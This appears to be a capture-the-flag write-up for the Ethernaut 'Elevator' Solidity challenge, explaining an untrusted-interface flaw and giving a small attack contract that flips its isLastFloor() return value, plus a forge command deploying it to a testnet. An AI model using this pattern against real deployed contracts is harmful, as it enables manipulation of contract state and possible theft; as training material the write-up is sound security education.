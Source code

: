 <div align="center">

<img src="../assets/levels/11-elevator.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 11 - Elevator</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/11-elevator-requirements.webp" width="800px"/>

## The hack

The Elevator is a level that is supposed to elevate (!) our knowledge about smart contract interface. An interface defines function signatures, but not their logic. This is a way to interact with other contracts without having to know the implementation details.

However, in this case, we can create our Building instance and use it to define our version of the `isLastFloor()` function.

```javascript
function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (!building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

In the `goTo` function, `isLastFloor` is called twice. The first time with any value (this will set the last floor), and the second time with the floor we want to go to. We can use this to our advantage by crafting a `isLastFloor()` that will return `false` the first time and `true` the second time.

This will allow us to reach the top of the building.

## Solution

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract StairwayToHeaven {
    bool private toogle;
    IElevator private elevator;

    constructor(address _elevator) {
        elevator = IElevator(_elevator);
    }

    // Implement the isLastFloor function to return false the first time (set
    // the floor to any uint value) and true the second time to go to the top
    function isLastFloor(uint) public returns (bool) {
        toogle = !toogle;
        return toogle;
    }

    // Pick your number :)
    function attack(uint256 _floor) external {
        elevator.goTo(_floor);
    }
}
```

Then, you can use forge scripts to deploy the contract and call the `attack` function with the floor you want to go to.

```bash
forge script script/11_Elevator.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Interfaces are a way to interact with other contracts without having to know the implementation details...
- ... so never trust them blindly!

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
